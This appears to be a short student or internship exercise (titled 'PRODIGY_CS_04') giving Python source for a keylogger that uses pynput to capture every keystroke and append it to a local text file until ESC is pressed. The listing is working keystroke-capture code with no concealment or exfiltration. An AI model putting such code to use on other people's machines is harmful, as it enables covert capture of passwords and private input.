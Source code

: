 # PRODIGY_CS_04
KEYLOGGER using python

from pynput.keyboard import Key, Listener

def write_key(key):
    with open("demo.txt", "a") as f:
        new_var = str(key).replace("'", '')  # Remove single quotes
        f.write(new_var + " ")  # Add a space between keystrokes

def on_press(key):
    write_key(key)  # Save key immediately
    print(key)

def on_release(key):
    if key == Key.esc:  # Stop logging when ESC is pressed
        return False

with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
